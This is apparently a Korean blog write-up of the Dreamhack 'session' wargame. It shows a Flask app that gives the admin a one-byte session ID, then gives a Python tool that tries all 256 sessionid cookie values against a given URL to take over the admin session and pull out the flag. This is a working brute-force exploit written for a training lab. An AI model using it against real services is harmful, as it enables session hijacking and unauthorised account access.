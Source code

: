 ```yaml
---
title: "[Dreamhack]session 풀이"
categories: [Wargame, Dreamhack]
tag:
- wargame
- webhacking
- session
- POC
- 워게임
- 웹해킹
---
```


# 개요
DreamHack의 워게임 session문제에 대한 풀이를 작성했습니다.

> **해당 공격 기법들을 허가되지 않은 실제 운영 서버에서 시도하는 것은 정보통신망법에 어긋나는 행위입니다.**
{: .prompt-warning }
## 풀이
### 1. 취약한 코드.

```python
#!/usr/bin/python3
from flask import Flask, request, render_template, make_response, redirect, url_for

app = Flask(__name__)

try:
    FLAG = open('./flag.txt', 'r').read()
except:
    FLAG = '[**FLAG**]'

users = {
    'guest': 'guest',
    'user': 'user1234',
    'admin': FLAG
}

session_storage = {
}

@app.route('/')
def index():
    session_id = request.cookies.get('sessionid', None)
    try:
        username = session_storage[session_id]
    except KeyError:
        return render_template('index.html')

    return render_template('index.html', text=f'Hello {username}, {"flag is " + FLAG if username == "admin" else "you are not admin"}')

@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'GET':
        return render_template('login.html')
    elif request.method == 'POST':
        username = request.form.get('username')
        password = request.form.get('password')
        try:
            pw = users[username]
        except:
            return '<script>alert("not found user");history.go(-1);</script>'
        if pw == password:
            resp = make_response(redirect(url_for('index')) )
            session_id = os.urandom(4).hex()
            session_storage[session_id] = username
            resp.set_cookie('sessionid', session_id)
            return resp 
        return '<script>alert("wrong password");history.go(-1);</script>'

if __name__ == '__main__':
    import os
    session_storage[os.urandom(1).hex()] = 'admin'
    print(session_storage)
    app.run(host='0.0.0.0', port=8000)
```
위 코드는 해당 문제의 전체코드이다. 해당 코드들을 나눠서 설명하자면.

<br>

```python
@app.route('/')
def index():
    session_id = request.cookies.get('sessionid', None)
    try:
        username = session_storage[session_id]
    except KeyError:
        return render_template('index.html')

    return render_template('index.html', text=f'Hello {username}, {"flag is " + FLAG if username == "admin" else "you are not admin"}')
```
루트 디렉토리 즉 사이트 메인화면에 접근할 경우 이 코드들이 실행된다. 처음 get요청으로 session을 `session_id`에 저장한뒤 `session_storage`의 인덱스에 넣어 `session_storage` 테이블에 맞는 값이 `username`에 저장된다. 이후 return으로 render가 될 때 만약 username이 admin이 맞다면 `"Hello admin, flag is DH{flag}"`가 출력될것이고, 아니라면 `"Hello {username}, you are not admin"`이 출력될것이다. 따라서 이 이 문제를 풀기위한 목표은 admin의 비밀번호를 알아내거나 admin의 session값을 알아내는것이다.

<br>

```python
@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'GET':
        return render_template('login.html')
    elif request.method == 'POST':
        username = request.form.get('username')
        password = request.form.get('password')
        try:
            pw = users[username]
        except:
            return '<script>alert("not found user");history.go(-1);</script>'
        if pw == password:
            resp = make_response(redirect(url_for('index')) )
            session_id = os.urandom(4).hex()
            session_storage[session_id] = username
            resp.set_cookie('sessionid', session_id)
            return resp 
        return '<script>alert("wrong password");history.go(-1);</script>'
```
해당 코드는 `/login`에 접근을 했을 경우에 대한 코드들이다. get방식의 요청을 받았을 때는 `login.html`을 렌더링해주고 post요청을 받을경우에는 `username`과 `password`를 받은 후 `pw`에 username을 users의 인덱스로 받고 만약 `users`에 해당 username과 일치하는 요소가 없을 경우 not found user를 alert로 띄우고 또 입력한 password와 pw가 일치하지 않을경우 `wrong password`가 alert로 출력이되고 pw까지 맞았다하면 session_id가 4바이트의 랜덤한 값을 hex로 인코딩하고 `session_storage`에 인덱스로 `session_id`를 넣고 해당하는 값으로 username이 저장된다. 

<br>

```python
if __name__ == '__main__':
    import os
    session_storage[os.urandom(1).hex()] = 'admin'
    print(session_storage)
    app.run(host='0.0.0.0', port=8000)
```
이 코드에서는 admin user에 대한 세션 설정이 나타나있다. 특이한것이 보이는데 위에서 session을 설정할 때에는 `os.urandom(4).hex()`로 4바이트의 랜덤한 값이 session으로 설정되었다면 admin은 1바이트의 랜덤한 값으로 설정이 되어있다는 것이다. 여기서 16진수는 2진수의 각 4비트를 16진수 1자리로 표현하는 방법으로 1바이트는 2자리의 16진수가 된다. 따라서 00부터 ff까지 256개의 16진수 값을 표현할 수 있다.

따라서 admin의 비밀번호를 brut force 하는 것보다 admin의 session_id를 brut force하는것이 더 효율적이기에 session_id를 brut force했다.


### 2. 툴 제작
처음에는 16진수값 00~ff까지 사전파일을 만들기위해 python코드를 작성해보았다.
```python
with open('session_burt_force.txt', 'w') as f:
    for i in range(256):
        hex_string = format(i, '02x')   # 2자리의 문자열이고 한자리일경우 앞에 0이붙은 i의 hex값을 hex_string에 저장 
        f.write(hex_string + '\n')      # hex_string을 쓰고 다음줄로 이동
```
<br>

위에서 작성한 사전파일을 이용해 exploit을 하는 python코드를 작성해보았다.
```python
import requests
import argparse
import sys
import re

parser = argparse.ArgumentParser(description="[DreamHack] session exploit tool.")

parser.add_argument('-u', '--url', dest='URL', help="로그인해서 열은 해당 문제의 사이트의 URL로 exploit (ex.http://host3.dreamhack.games:0000/)")
parser.add_argument('-c', '--create', dest='CREATE', help="1바이트 크기의 16진수 파일 만들기", action='store_true')

args = parser.parse_args()

url = args.URL


if args.CREATE:
    with open('session.txt', 'w') as f:
        for i in range(256):
            hex_string = format(i, '02x')
            f.write(hex_string + '\n')
    print('File "session.txt" successfully created.')


if args.URL:
    try:
        with open('session.txt', 'r') as f:
            hex_list = f.read().splitlines()
    except:
        print("-c 옵션으로 파일을 생성해주세요.")
        sys.exit()

    try:
        response_len = requests.get(url)
    except:
        print("유효하지 않는 URL입니다.")
        sys.exit()
            
    initial_response_len = len(response_len.text)

    pattern = r'DH\{.*?\}'  # DH{로 시작하고 }로 끝나는 패턴
    for cookie in hex_list:
        head = {"sessionid": f"{cookie}"}
        response = requests.get(url, cookies=head)
        print(cookie)

        if len(response.text) != initial_response_len:
            print(f"admin session: {cookie}")
            matches = re.findall(pattern, response.text)    # 패턴 찾기
            for match in matches:
                print(f'Flag: {match}')
            break

elif not args.CREATE: 
    print("URL을 지정하세요. (-h, --help)")
```


